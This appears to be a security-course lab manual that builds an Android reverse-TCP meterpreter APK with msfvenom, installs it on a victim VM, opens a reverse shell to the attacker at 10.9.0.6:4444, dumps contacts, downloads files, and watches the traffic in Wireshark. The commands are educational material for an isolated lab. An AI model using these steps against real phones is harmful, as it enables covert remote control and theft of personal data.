


# Lab 7: Developing Mobile Malware

## Set-up


````{note}
In this lab, we need to set up two VMs: an attacker (Ubuntu 20.04) and a victim (Android 7.1.1), please make sure they are using the **same subnet**. On the attacker, all environments are pre-built in the Docker container: [yangzhou301/lab7:latest](https://hub.docker.com/r/yangzhou301/lab7), in which `/root/volume` is the shared folder between the host Ubuntu and the container. You should keep the output `tcp_reverse.apk` that is generated in this lab on your host VM for the further usage in Lab 6.
````

`````{tabbed} Attacker: Ubuntu

IP address: `10.9.0.6`

```{tip}
`10.9.0.6` is just an **example** in this manual, you have to determine your actual IP address by `ifconfig` command.
```

Pull the Docker image for this lab

```
$ docker pull yangzhou301/lab6
```

Open the folder for this lab and check if `volume` folder in it:

```
$ cd $HOME/lab7
# volume
```

Start the container using the shared `volume` and network with the host:

```
$ docker run --rm -it --network host -v $HOME/lab7/volume:/root/volume yangzhou301/lab7
```

It brings you to the `/bin/bash` at `/root` directory of the container.

`````

`````{tabbed} Victim: Android
IP address: `10.9.0.5`

```{tip}
`10.9.0.5` is just an **example** in this manual, you have to determine your actual IP address by `ifconfig` command after launching Terminal Emulator app.
```
Run the Android VM.

`````

## Explore Metasploit

[Metasploit](https://docs.rapid7.com/metasploit/) is a powerful Android penetration testing framework, which can be used to create some simple android malwares.

First, we search all modules in Metasploit to find out those modules for Android exploits.

```
$ msfconsole
msf >  search type:payload platform:android
```

We can see numerous exploits in Metasploit for hacking Android listed in the outputs. In this lab, we select the most commonly known and stable payload, "reversed TCP", to perform the hacking, which established TCP connection between the attacker and the victim and the attacker can get a reversed shell to control it. 

Create a reverse-TCP payload[^ex] `apk`

```
msf > msfvenom -p android/meterpreter/reverse_tcp LHOST=10.9.0.6 LPORT=4444 -f raw -o volume/reverse_tcp.apk
```

We can check `volume` (both on host and container) to see if it constructs successfully:

```
msf > ls volume
```

Then, send the generated `reverse_tcp.apk` to the vicitm Android VM and install it:

```
msf > adb connect 10.9.0.5
msf > adb install volume/reverse_tcp.apk
# disconnect to avoid noise in traffic monitor
msf > adb disconnect
```

````{warning}
If `adb` connect fails, please use `ifconfig` to check if the victim and the attacker share the same subnet. If they are, but `adb` reports error as "No route to host", and when you `ping` each other it gives the error message "Destination Network / Host unreachable", maybe some network interface created by other containers before occupies the ip address of gateway/router `10.9.0.1`, run

```
$ docker network prune
```

to remove them and retry `adb connect` command above.
````

Start a handler to listen on port 4444 of the attacker VM:

```
msf > use exploit/multi/handler
msf > set payload android/meterpreter/reverse_tcp
msf > set lhost 10.9.0.6
msf > set lport 4444
msf > exploit
```

From the victim Android, we start the installed app `MainActivity`


```{warning}
No obvious response after double-clicking, but actually it is running in the background.
```

Then we can see the session information from the attacker VM:



Now, we get the `meterpreter` console.

### Basic Commands

Check if the device is rooted

```
meterpreter > check_root
```

See the current directory where you are

```
meterpreter > pwd
/data/user/0/com.metasploit.stage/files
```

Dump all contacts

```
meterpreter > dump_contacts
[*] Fetching 5 contacts into list
[*] Contacts list saved to: contacts_dump_20210729033039.txt
```

If you want to view the dumped contacts information, exit `meterpreter` by `exit` and use `cat` to check:



Then run `sessions -i 1` to restore the session.

````{seealso}
More commands can be found by:

```
meterpreter > help
```

Or see the [Metasploit Cheat Sheet](https://pentestmag.com/metasploit-cheat-sheet/)
````

[^ex]: https://www.hackers-arise.com/post/2018/07/06/metasploit-basics-part-13-exploiting-android-mobile-devices


## Task: steal sensitive files

For example, get the DNS configurations on the victim mobile:

```
meterpreter > cat /etc/hosts
127.0.0.1       localhost
::1             ip6-localhost
```

Download it to the attacker machine

```
meterpreter > download /etc/hosts
```


## Monitor Traffic

Launch `Wireshark` from desktop home bar.


When starting an `exploit` in [Explore Metasploits](#explore-metasploits), `Wireshark` captures the TCP traffic between the attacker and the victim. For example, here are the packets that the TCP connection establishes and transfers some encoded data(Note that `10.9.0.6:4444` is the malicious host):


```{important}
Don't delete the `reverse_tcp.apk` created in this lab, we will use it in the following labs.
```